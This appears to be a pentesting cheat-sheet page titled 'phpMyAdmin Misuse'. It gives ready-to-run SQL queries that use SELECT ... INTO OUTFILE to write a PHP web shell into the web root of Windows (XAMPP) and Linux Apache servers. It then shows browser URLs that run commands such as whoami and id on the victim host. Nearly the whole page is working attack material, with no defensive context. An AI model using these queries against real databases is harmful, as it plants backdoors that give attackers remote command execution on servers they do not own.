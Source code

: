 # phpMyAdmin Misuse

```
Description: PHP application that lets you interact with a MySQL database through your web browser
Hosted: http://<host>/phpmyadmin

# Windows Example (XAMPP or WAMP or LAMP)
# Query to execute
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "C:\\xampp\\htdocs\\backdoor.php";

Browser: http://<victim-ip>/backdoor.php?cmd=whoami
```

# Linux Example (Apache default path)
```
# Query to execute
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/shell.php";

Browser: http://<victim-ip>/shell.php?cmd=id
```

## Back to README.md
[BACK](../README.md)